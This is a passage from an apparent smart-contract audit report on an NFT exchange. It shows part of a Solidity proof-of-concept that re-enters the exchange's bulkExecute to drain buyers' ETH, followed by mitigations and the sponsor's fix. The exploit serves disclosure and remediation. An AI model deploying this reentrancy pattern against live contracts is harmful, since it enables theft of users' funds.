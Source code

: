 ```
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}

```

Execute `yarn test` to see that test pass (Alice stole all 4 ETH)

### Tools Used
VS code, hardhat

### Recommended Mitigation Steps
1. Put a reentrancyGuard on `execute` and `bulkExecute` functions
2. `_refundDust` return only _remainingETH
3. revert in `bulkExecute` if parameter array is empty.

**[nonfungible47 (Blur) confirmed and commented](https://github.com/code-423n4/2022-11-non-fungible-findings/issues/96#issuecomment-1341617796):**
 > Both mitigation steps 2 and 3 were added. We cannot add `reentrancyGuard` to the `execute` and `bulkExecute` functions as it will break the call to `_execute`. So, a separate guard was added in `setupExecution` that would require `isInternal = false`, preventing reentrant calls.



***
 
# Medium Risk Findings (2)
## [[M-01] Yul `call` return value not checked](https://github.com/code-423n4/2022-09-vtvl-findings/issues/3)
*Submitted by rotcivegaf, also found by 0x4non, 0xDecorativePineapple, 9svR6w, adriro, ajtra, aviggiano, brgltd, carlitox477, chaduke, codexploder, corerouter, joestakey, ladboy233, s3cunda, saian, Trust, V\_B, and wait*
